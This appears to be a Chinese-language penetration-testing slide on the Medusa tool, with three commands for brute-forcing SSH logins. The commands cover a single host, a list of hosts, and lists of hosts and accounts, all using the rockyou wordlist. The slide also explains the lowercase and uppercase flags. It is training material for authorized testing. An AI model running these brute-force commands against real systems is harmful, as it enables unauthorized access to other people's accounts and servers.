

# 密码爆破medusa
1.单个ssh目标爆破：
Medusa -h ip -u root -P /pentest/passwords/wordlists/rockyou.txt -M ssh
2.多个ssh目标爆破：
需要将目标整理到txt中，例如ip.txt
Medusa -H ip.txt -u root -P /pentest/passwords/wordlists/rockyou.txt -M ssh
3.如果账号不是root，需要多个账号进行尝试，那么也要将账号整理成txt
Medusa -H ip.txt -U acount.txt -P /pentest/passwords/wordlists/rockyou.txt -M ssh
规律是如果是单个目标，则参数都是小写的h,u,p，如果需要多个目标加载，则都是大写的，H,U,P。M 参数后加需要破解的模块。
55